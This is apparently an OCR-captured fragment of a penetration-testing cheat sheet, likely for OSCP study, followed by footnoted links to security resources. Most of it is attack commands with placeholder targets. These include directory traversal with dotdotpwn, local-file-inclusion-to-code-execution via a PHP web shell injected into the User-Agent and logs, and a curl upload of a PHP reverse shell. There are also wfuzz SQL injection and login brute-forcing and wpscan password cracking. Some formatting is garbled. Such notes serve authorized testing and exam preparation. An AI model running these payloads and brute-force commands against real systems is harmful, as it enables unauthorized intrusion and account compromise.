         ```
    ```bash
    dotdotpwn -m http-url -u http(s)://$rhost:$rport/$somepage.php?$page=TRAVERSAL -k $word (root if linux, find if MS) 
    LFI_Scanner.py (https://github.com/monkeysm8/CTF-Stuff/blob/master/LFI_Scanner.py)
    ```
* LFI to RCE: 
    * To try first before the proc/self/fd/$numberToFigureOut: Proc/self/environ
    ```bash
    https://$url/$directory/$somephp.php?$phpfunction=../../../../../../../../../proc/self/fd/$numberFromFDsizeFindOutfromProcSelfStatus(number usually 0-32)
    ```
    * paste the following in User-Agent Burp: `#!php <?php system($_GET['cmd']); ?>` then access 1st url in this line/section then add =$command at the end [^31][^32]
    * Another version of above. Input `#!php <?php system($_GET[‘cmd’]); ?>` in URL first then access the access or error log 
    * Go through this link one by one [^33][^34]

* PUT:
    * UPLOAD: 
        ```bash
        curl --upload-file  php-reverse-shell.txt -v --url http://$rhost/$dir/reverse_shell.php -0 --http1.0
        ```
* Adobe Coldfusion: https://nets.ec/Coldfusion_hacking
* SQLi: 
    ```bash
    nmap -sV -p $rport --script=http-sql-injection $rhost
    ```
* WFUZZ:
    * Directory:
        ```bash
        wfuzz -v -c  -w $wordlist -u $url/FUZZ -p $burpIPandPort:HTTP  -H "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0" -H "$Cookie_Field" -f wfuzz_results.txt #(put FUZZ wherever you want to) 
        ```
    * SQLi: 
        ```bash
        wfuzz -v -c  -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -u $url/index.php?id=FUZZ -p $burpIPandPort:HTTP  -H "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0" -H "$Cookie_Field" -f wfuzz_results.txt
        ```
        * Wordlists
            * [Seclists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi)
            * [FuzzDB](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/sql-injection/detect)
           
    * BRUTEFORCE:
        * MULTIPLE:
            ```bash
            wfuzz -v -c  -w $wordlist_username -w $wordlist_password -u $url/login.php -d "username=FUZZ=FUZ2Z" -p $burpIPandPort:HTTP  -H "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0" -H "$Cookie-Field" -f wfuzz_results.txt
            ```
        * SINGLE:
            ```bash
            wfuzz -v -c  -w $wordlist -u $url/login.php -d "username=admin=FUZZ" -p $burpIPandPort:HTTP  -H "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0" -H "$Cookie-Field" -f wfuzz_results.txt
            ```
* WORDPRESS:
    ```bash
    wpscan --url http://$rhost
    wpscan --url http://$rhost --enumerate u
    wpscan --url http://$rhost --wordlist /usr/share/wordlists/rockyou-10k.txt --user admin

[^1]: [sleventyeleven](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
[^2]: [highon.coffee](https://highon.coffee/downloads/linux-local-enum.sh)
[^3]: [rebootuser](https://github.com/rebootuser/LinEnum)
[^4]: [g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^8]: [Memmodipper](https://www.exploit-db.com/exploits/18411)
[^9]: [chkrootkit](https://www.exploit-db.com/exploits/33899)
[^10]:  [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
[^11]: [Amplia Security](https://www.ampliasecurity.com/research.html)
[^12]: [Foofus](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
[^13]: [neomh](https://github.com/neomh/cheat-sheets/blob/master/Commands)
[^14]: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[^15]: [Vulnerabilityassessment.co](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
[^16]: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)
[^17]: [Escape from shellcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
[^18]: [ianthomasfry](https://ianthomasfry.blogspot.com/2017/05/oscp-exam-study-guide-i-first-steps.html)
[^19]: [Sec Juice](https://www.secjuice.com/oscp-prep-guidance/)
[^20]: [scund00r](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
[^21]: [backdoorshell](https://backdoorshell.gitbooks.io/oscp-useful-links/content/fuzzing.html)
[^22]: [0xc0ffee](http://0xc0ffee.io/blog/OSCP-Goldmine)
[^23]: [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/)
[^24]: [ihack4falafel](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Bookmark%20List.pdf)
[^25]: [kevsec](http://kevsec.fr/resources/)
[^26]: [futureoscp](http://futureoscp.blogspot.com/2017/10/usefull-oscp-material.html)
[^5]: [WindowsPrivCheck](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Upgrading%20half%20shells%20to%20fully%20interactive%20TTYs.pdf)
[^6]: [Accesschk](https://download.sysinternals.com/files/AccessChk.zip)
[^7]: [JAWS](https://github.com/411Hall/JAWS.git)
[^31]: [Exploit-db-130179](https://www.exploit-db.com/papers/13017)
[^32]: [hackingarticles](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/)
[^33]: [Graceful security](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
[^34]: [3mrgnc3](https://github.com/3mrgnc3/LFIter2/blob/master/win-fpaths.txt)
[^35]: [Ethical Hackers Club](https://www.youtube.com/watch?v=1fkgo4hsyp8)
[^36]: [HackMag](https://hackmag.com/security/hacking-mysql-databases-methods-and-tools/)